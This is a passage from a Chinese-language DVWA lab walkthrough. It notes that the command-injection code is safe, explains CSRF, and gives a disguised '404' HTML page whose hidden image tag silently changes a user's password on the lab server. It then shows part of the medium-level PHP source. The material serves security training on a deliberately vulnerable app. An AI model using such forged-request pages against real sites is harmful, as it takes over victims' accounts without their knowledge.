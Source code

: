 ```php
```

分析源码：

`stripslashes()`:删除反斜杠`\`。

`explode()`:将字符串打散成列表。

可以发现添加了`Anti-CSRF token`，每次都会随机一个token和服务端check。

并且将输入的字符串通过`.`打散，然后判断列表的每一个元素是否为数字，若都为数字再组合成ip地址的形式。

因此不存在命令行注入。

# CSRF(跨站请求伪造)

## low

我们首先要了解CSRF具体指的是什么，我们可以理解为当用户A登录了网站B，攻击者C知道网站B的一项功能的请求url，那么攻击者A构造这一url，发送给用户A，用户A点击该链接，产生的行为就是在用户A未知的情况下，伪造A的身份进行的操作，可以是改密码，转账等敏感行为。

在实践中，我们使用的url为：`http://172.16.34.167/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change`

直接访问这个链接的话，很明显这个链接的目的是更改密码，因此我们可以用短链接的形式来隐藏真实的url。但是访问后，仍会显示更改密码成功后的页面，因此，我们可以构造一个exp页面来实现攻击。

```html
<html>
	<head>
    <title>404</title>
  </head>
  <body>
    <img src="http://172.16.34.167/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change" style="display:none;"/>
    <h1>404</h1>
  	<h2>
      file not found.
    </h2>
  </body>
</html>
```



## medium

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = mysql_real_escape_string( $pass_new );
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

```
